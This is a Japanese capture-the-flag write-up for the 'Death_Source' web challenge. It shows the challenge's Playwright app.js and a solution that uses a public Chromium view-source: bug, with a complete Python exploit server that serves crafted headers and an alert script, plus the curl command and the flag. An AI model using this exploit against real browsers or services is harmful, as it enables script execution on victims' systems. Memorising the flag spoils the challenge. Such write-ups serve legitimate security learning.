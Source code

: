 # 🥵 Death_Source

## 問題文
ネット上のソースは全部安全なはずです。  
alertなんてできませんよね？  
フラグは`flag{文字列}`の形式で、`process.env.FLAG`に入っています。  
[http://localhost:3000?url=https://example.com](http://localhost:3000?url=https://example.com)  
[app.js](files/app.js)  

## 難易度
**2割解ける**  

## 作問にあたって
Chromiumの脆弱性？を使った問題です。  
私が見つけたわけではないですが、公開されており面白そうな挙動だったので問題にしました。  
詳細は「[Issue 1281137: Omnibox removes view-source: and renders the page without displaying the HTML source](https://bugs.chromium.org/p/chromium/issues/detail?id=1281137)」です。  
簡単に言うと`view-source:`へのアクセスでJavaScriptを動かすことができます。  

## 解法
URLにアクセスすると、`?url=`で指定されたページの"ソースの表示ソース"を表示しているサイトのようだ。  
配布されたapp.jsの中身は以下のようであった。  
```JavaScript
~~~
async function http_get(url) {
    const browser = await playwright.chromium.launch({headless: true});
    const context = await browser.newContext();
    const page = await context.newPage();

    let flag = "This source code is yummy !!!<br>";

    page.on("dialog", async dialog => {
        /* <script>alert('Satoki');</script> */
        if (dialog.type() === "alert") {
            flag = process.env.FLAG; // Congrats!
            console.log("[flag]: " + url);
        }
        await dialog.accept();
    });

    /* Can you execute JavaScript on view-source: ? */
    try {
        // First bite
        await page.goto("view-source:" + url, {timeout: 2000});
        flag += "<pre><code>" + sanitize(beautify.html(await page.content())) + "</code></pre>";
    } catch (error) {console.log("[error]: " + error);}
    await page.waitForTimeout(100);

    try {
        // Second bite
        await page.reload();
    } catch (error) {console.log("[error]: " + error);}
    await page.waitForTimeout(100);

    await browser.close();

    return flag;
}
~~~
```
ユーザからのURLをplaywright.chromiumの`view-source:`で開いてリロードしている。  
コメントの通り`view-source:`でJavaScriptを実行して、alertを出せばよいようだ。  
ツイッターで「chromium view-source: lang:ja」と検索すると[発見者のツイート](https://twitter.com/reinforchu/status/1471995823684984835)が出てくる。  
さらに調べると[報告ツイート](https://twitter.com/reinforchu/status/1472414835849990147)が見つかる。  
「[Issue 1281137: Omnibox removes view-source: and renders the page without displaying the HTML source](https://bugs.chromium.org/p/chromium/issues/detail?id=1281137)」に詳細が記されており、エラーページのリダイレクト時に`view-source:`が欠落するバグのようだ。  
PoCが同ページより手に入るのでcsファイルを実行するか、自前でサーバを実装すればよい。  
pythonで実装しなおしたサーバスクリプトexploit.pyは以下になる。  
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

address = ("0.0.0.0", 4000)

class MyHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.send_header("Cache-Control", "no-cache, no-store")
        self.send_header("Pragma", "no-cache")
        self.send_header("Expires", "0")
        if self.headers["Cache-Control"]:
            self.send_header("Content-Length", "32")
        else:
            self.send_header("Content-Disposition", "form-data; name=\"ieldName\"; filename=\"Chromium_Bug\",inline")
        self.end_headers()
        self.wfile.write(b"<script>alert('imctf');</script>")

with HTTPServer(address, MyHTTPRequestHandler) as server:
    server.serve_forever()
```
これをどこかで実行して、問題サーバにそのアドレスを投げればよい。  
```bash
$ curl 'http://localhost:3000/?url=http://localhost:4000'
flag{Did_you_lick_Death_Sauce_???}
```
flagが得られた。  

## flag{Did_you_lick_Death_Sauce_???}